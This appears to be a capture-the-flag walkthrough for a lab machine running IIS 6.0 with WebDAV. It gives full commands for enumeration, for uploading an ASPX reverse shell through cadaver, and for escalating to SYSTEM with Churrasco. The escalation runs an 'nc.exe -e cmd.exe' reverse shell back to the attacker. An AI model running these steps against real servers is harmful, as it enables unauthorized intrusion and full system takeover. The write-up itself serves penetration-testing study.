 # IP Address: 10.10.10.15

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.15 -t all

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0

┌──(code㉿kali)-[~]
└─$ sudo nmap -p 80 -vv --script=http-frontpage* 10.10.10.15

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html

```

### HTTP
The server is running Microsoft Frontpage version 4.0 which has misconfigured permissions. 

We enumerate file permissions using DavTest.
```
┌──(code㉿kali)-[~]
└─$ davtest -move -sendbd auto -url http://10.10.10.15
********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_o27RPgyrd
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.pl
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.php
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.shtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.asp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.aspx
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jsp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cgi
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jhtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cfm
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
```


# Exploitation

We are able to create directories and upload files to it. Now, we upload an ASPX reverse shell, browse to the page and catch the shell with netcat. 

```
┌──(code㉿kali)-[~]
└─$ cadaver 10.10.10.15
dav:/> ls
Listing collection `/': succeeded.
Coll:   DavTestDir_o27RPgyrd                   0  Nov 21 17:37
Coll:   _private                               0  Apr 12  2017
Coll:   _vti_bin                               0  Apr 12  2017
Coll:   _vti_cnf                               0  Apr 12  2017
Coll:   _vti_log                               0  Apr 12  2017
Coll:   _vti_pvt                               0  Apr 12  2017
Coll:   _vti_script                            0  Apr 12  2017
Coll:   _vti_txt                               0  Apr 12  2017
Coll:   aspnet_client                          0  Apr 12  2017
Coll:   images                                 0  Apr 12  2017
        _vti_inf.html                       1754  Apr 12  2017
        iisstart.htm                        1433  Feb 21  2003
        pagerror.gif                        2806  Feb 21  2003
        postinfo.html                       2440  Apr 12  2017
dav:/> put shell.txt 
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 2718 bytes succeeded.
dav:/> copy shell.txt shell.aspx
Copying `/shell.txt' to `/shell.aspx':  succeeded.
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                   
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


# Privilege Escalation
Get the systeminfo and run windows-exploit-suggester against it. Tried a few exploits but nothing worked. Finally found a program written to exploit a WMI Service Isolation vulnerability in Windows Server 2003 SP2. 

Download churrasco.exe from here: https://github.com/Re4son/Churrasco and rename it to churrasco.txt

```
┌──(code㉿kali)-[~]
└─$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe -o churrasco.txt

```

Upload it along with nc.exe (temporarily renamed nc.txt since we can't upload files with .exe extension) to the target using cadaver. Change .txt to .exe
```
dav:/> put churrasco.txt 
Uploading churrasco.txt to `/churrasco.txt':
Progress: [=============================>] 100.0% of 31232 bytes succeeded.
dav:/> move churrasco.txt churrasco.exe
Moving `/churrasco.txt' to `/churrasco.exe':  succeeded.
dav:/> put nc.txt 
Uploading nc.txt to `/nc.txt':
Progress: [=============================>] 100.0% of 59392 bytes succeeded.
dav:/> move nc.txt nc.exe
Moving `/nc.txt' to `/nc.exe':  succeeded.
```

On the target shell we caught, run churrasco.exe
```
C:\Inetpub\wwwroot>churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4499
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1052
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

```


# Proof
user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Granny/images/Pasted%20image%2020211121195349.png)


root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Granny/images/Pasted%20image%2020211121195444.png)
